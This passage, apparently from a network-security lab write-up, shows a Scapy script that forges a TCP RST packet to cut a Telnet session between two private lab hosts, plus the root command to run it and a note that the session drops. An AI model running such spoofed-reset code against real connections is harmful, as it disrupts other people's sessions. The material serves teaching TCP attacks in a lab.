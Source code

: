 Fill out the critical fields of the spoofed packet and send it using the codes in [`rst_telent.py`](./rst_telnet.py) below:

```python
from scapy.all import *

ip = IP(src="10.0.2.4", dst="10.0.2.5")
tcp = TCP(sport=23, dport=59498, flags="R", seq=199921803, ack=1577076274)

pkt = ip / tcp
ls(pkt)
send(pkt, verbose=0)
```

On the attacker machine, execute it with root privilege:
```
sudo python rst_telnet.py
```
Immediately, on the user machine, you can find the connection is terminated.

![](./telnet_rst_2.png)
